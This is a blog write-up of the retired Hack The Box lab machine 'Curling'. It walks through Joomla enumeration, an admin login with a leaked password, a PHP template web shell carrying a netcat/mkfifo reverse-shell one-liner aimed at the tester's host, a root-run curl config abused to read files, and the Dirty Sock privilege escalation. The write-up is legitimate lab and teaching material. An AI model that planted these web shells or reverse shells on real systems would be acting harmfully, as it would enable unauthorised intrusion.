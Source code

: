 ```yaml
---
layout: post
title: Hack The Box - Curling
categories: hack-the-box
tags: [linux, web, joomla, rce, ssh]
description: My write-up for Curling from Hack The Box.
image: /hackthebox/curling/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys today Curling retired and here is my write-up about it. I had a lot of fun doing this box as it was easy and simple. Also it was straightforward , no rabbit holes and such things. It's a linux box and its ip is `10.10.10.150` I added it to `/etc/hosts` as `curling.htb`. Let's jump right in !
![](/images/hackthebox/curling/0.png)
<hr>
## Nmap
<br> As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC curling.htb`
![](/images/hackthebox/curling/1.png)
<br> We only get 2 open ports , 80 running http and 22 running ssh. Let's look at http.
<br>
<hr>
## HTTP Initial Enumeration
![](/images/hackthebox/curling/2.png)
<br> We see a blog titled "Cewl Curling site!" , and it's [joomla](https://www.joomla.org/). At this point I would run `joomscan` but I wanted to do some manual enumeration first , so I checked the source of the page and at the end of the body I found this comment :
![](/images/hackthebox/curling/3.png)
<br> So I checked `/secret.txt` and found this `base64` string :
![](/images/hackthebox/curling/4.png)
<br> Decoding :
![](/images/hackthebox/curling/5.png)
<br> `Curling2018!` we can use that as a password. But what is the username ? If we take a look at the main page again and read the posts :
![](/images/hackthebox/curling/6.png)
<br> We will notice a name in one of the posts : `Floris` , now we can try to login as `floris` with the password `Curling2018!` :
![](/images/hackthebox/curling/7.png)
<br>
<br>
![](/images/hackthebox/curling/8.png)
<br> And it worked. While I was doing this enumeration I ran gobuster in the background and got these results :
```
/.htpasswd (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htaccess (Status: 403)
/bin (Status: 301)
/cache (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
<br> Let's go to `/administrator` and login to the administration panel :
![](/images/hackthebox/curling/9.png)
<br>
<br>
![](/images/hackthebox/curling/10.png)
<br>
<br>
![](/images/hackthebox/curling/11.png)
<hr>
## Editing Template Files and Getting a Reverse Shell :
<br> On the configuration section there's an option for templates :
![](/images/hackthebox/curling/12.png)
<br> By going to that we notice that protostar is the default style and template :
![](/images/hackthebox/curling/13.png)
<br>
<br>
![](/images/hackthebox/curling/14.png)
<br> From templates we will go to `Protostar Details and Files` and create a new `php` file :
![](/images/hackthebox/curling/15.png)
<br>
<br>
![](/images/hackthebox/curling/16.png)
<br> In the php file we will execute a system command to get a reverse shell :
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
![](/images/hackthebox/curling/17.png)
<br> After we save the file we will go to `http://curling.htb/templates/protostar/file.php`
![](/images/hackthebox/curling/18.png)
<br> Then we check our listener :
![](/images/hackthebox/curling/19.png)
<hr>
## User
<br> We got a reverse shell as `www-data` , in the `/home` directory there's a directory for `floris` :
![](/images/hackthebox/curling/20.png)
<br> We don't have read access to `user.txt` , but we notice a file called `password_backup` , by looking at that file :
![](/images/hackthebox/curling/21.png)
<br> It's a `hex dump` file , So I copied it to my box to reverse it :
![](/images/hackthebox/curling/22.png)
<br> To reverse a `hex dump` file we will use `xxd` , so `xxd -r pw_backup` :
![](/images/hackthebox/curling/23.png)
<br> Not a normal output , let's redirect the output to a file and see :
![](/images/hackthebox/curling/24.png)
<br> So what happened is , it turned out to be a `bzip2` file so I decompressed it then got a new `gzip` file , decompressed it and got another `bzip2` file , after decompression I got a `tar` file , then finally a `txt` file for the password :
![](/images/hackthebox/curling/25.png)
<br> Let's `ssh` as `floris` :
![](/images/hackthebox/curling/26.png)
<br> And we owned user !
<br>
<hr>
## Curling 
<br> By looking at the `/home` directory of `floris` again :
![](/images/hackthebox/curling/27.png)
<br> There's a directory called `admin-area` which contains two files :
![](/images/hackthebox/curling/28.png)
<br> `input` and `report`
<br> `input` :
![](/images/hackthebox/curling/29.png)
<br> `url = "http://127.0.0.1"`
<br> `report` :
![](/images/hackthebox/curling/30.png)
<br> It's obvious that this is the output of executing `curl` on `http://127.0.0.1` :
![](/images/hackthebox/curling/31.png)
<br> Even the name of the box is a hint `curling` , so what about changing that `url` from `localhost` to something else like a file ? Next time the command gets executed we will get the contents of that file , maybe `root.txt` ? But only if it's getting executed by `root`. Let's try and see if it will work :
![](/images/hackthebox/curling/32.png)
<br> Then we will do : `watch cat report` , this is executing `cat report` every 2 seconds and giving us the output , easier than checking manually :
![](/images/hackthebox/curling/33.png)
<br> After some time we get the flag.
<br>
<hr>
## Dirty Sock ? Root shell !
<br> I didn't like the fact that I could only read the flag , I wanted a `root` shell. So I tried for a long time to bypass the `url` thing and get a reverse shell , but couldn't. Then when I did this box again for the write-up , one of the things that caught my attention is that we are on an `ubuntu` box , so I checked `snap` version to know if it's vulnerable to `CVE-2019-7304` known as `Dirty Sock` and of course it was :
![](/images/hackthebox/curling/34.png)
<br> This is not intended at all because by the time this box was released ,  `CVE-2019-7304` wasn't disclosed yet.
<br> I got the exploit from [here](https://github.com/initstring/dirty_sock) , Then hosted it on a python simple http server and downloaded it on the box :
![](/images/hackthebox/curling/35.png)
`python3 dirty_sockv2.py`
![](/images/hackthebox/curling/36.png)
<br> Now we can `su` to `dirty_sock` and execute commands as root :
![](/images/hackthebox/curling/37.png)
<br> Or just `sudo su` and we will get a root shell :
![](/images/hackthebox/curling/38.png)
<br> We owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Frolic](/hack-the-box/frolic/)
<br> Next Hack The Box write-up : [Hack The Box - Vault](/hack-the-box/vault/)
<hr>
